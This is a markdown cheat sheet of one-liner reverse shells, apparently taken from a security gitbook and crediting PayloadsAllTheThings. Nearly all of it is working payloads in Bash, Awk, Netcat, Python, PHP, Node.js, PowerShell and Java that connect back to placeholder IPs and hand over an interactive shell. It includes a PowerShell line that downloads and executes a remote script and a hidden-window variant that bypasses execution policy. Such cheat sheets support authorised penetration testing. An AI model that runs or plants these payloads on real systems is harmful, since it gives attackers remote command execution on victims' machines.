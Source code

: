 # One-liner Reverse Shell

## How to solve the problem of multiple quotes in a single command while designing a payload?

* 
## UDP Reverse shells

#### Bash UDP

```text
Victim:
sh -i >& /dev/udp/127.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

## Bash/Linux

* shell script : `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
* Awk : `awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`
* Ncat :
  *  `ncat 127.0.0.1 4444 -e /bin/bash` 
  * `ncat --udp 127.0.0.1 4444 -e /bin/bash`
* Python : 
  * `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
* Netcat :
  * `nc -e /bin/bash 10.0.0.1 1234`
  * `nc -c /bin/sh 10.0.0.1 1234`

## PHP

* `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/1234 0>&1'");?>`
* `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
* **For windows \(non reverse shell, just command execution\)**
  * `<?php echo shell_exec("windows command");?>`

## Javascript

```text
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(5500, '192.168.60.124');
```

## Powershell

```text
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```text
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Java

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Windows Reverse shell using powershell

```text
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![](../../.gitbook/assets/image%20%289%29.png)

Ref : [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Cyber security -&gt; Security bits -&gt; Reverse shells

